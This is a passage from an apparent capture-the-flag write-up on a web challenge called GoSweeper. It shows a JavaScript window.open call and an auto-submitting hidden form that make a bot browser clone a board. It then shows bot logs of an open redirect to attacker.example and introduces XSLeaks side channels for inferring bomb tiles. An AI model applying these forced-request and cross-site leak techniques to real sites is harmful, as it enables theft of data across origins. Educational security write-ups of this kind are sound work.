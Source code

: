 ```html
<script>
window.open("https://gosweeper.example/clone?cloneid=fe24ecea6cf48d9604127b1204bb24fd");
</script>
```

Alternatively, and perhaps more flexibly, we can also use HTML forms, which
allow us to do POST requests as well.
As such, the example above can be rewritten as (notice `target="_blank"` in the
form HTML to open it in a new tab):

```html
<form id="form-clone" method="get" action="https://gosweeper.example/clone" target="_blank">
  <input type="hidden" name="cloneid" value="fe24ecea6cf48d9604127b1204bb24fd" />
</form>

<script>
  document.getElementById('form-clone').submit();
</script>
```

We can see from the browser logs that the bot indeed successfully clones the board,
since the request to `/board?xray=1` no longer redirects to `/newboard`!

```hl_lines=5 8
[DEBUG] What follows is a list of all the requests which have been performed by the browser:
// ...
[DEBUG]   - 302 https://gosweeper.example/clone?cloneid=something&redirect=//attacker.example
[DEBUG]   - 200 https://attacker.example/
[DEBUG]   - 200 https://gosweeper.example/clone?cloneid=fe24ecea6cf48d9604127b1204bb24fd
[DEBUG]   - 404 https://attacker.example/favicon.ico
// ...
[DEBUG]   - 200 https://gosweeper.example/board?xray=1
[DEBUG]   - 200 https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/css/bootstrap.min.css
[DEBUG]   - 200 https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/js/bootstrap.bundle.min.js
```

Now that we have successfully cloned the board, while still having an open tab
with our malicious website open, we can try to make certain requests in order
to hopefully extract information about the state of the board.
Given that all traditional methods of getting information (e.g., sending a request
using `fetch`) are blocked, we are left with just one option: side channels.

### XSLeaks

As previously mentioned, side channels on the web are commonly referred to as
Cross-Site Leaks ([XSLeaks]), and they allow an attacker (us) to infer information
present in another origin (GoSweeper).
Going through the XSLeaks Wiki reveals a number of approaches one could take,
which mainly rely on having the website and/or browser exhibit
different behaviour based on the state of the board.

To take advantage of this, we first need to find a scenario in which a request
is handled differently depending on certain actions.
The challenge gives us the hint that we might not be able to get the whole board
at once, since we are limited to 5 clones per board.
Therefore, it is likely that we will only be able to infer whether a certain
tile is a bomb.
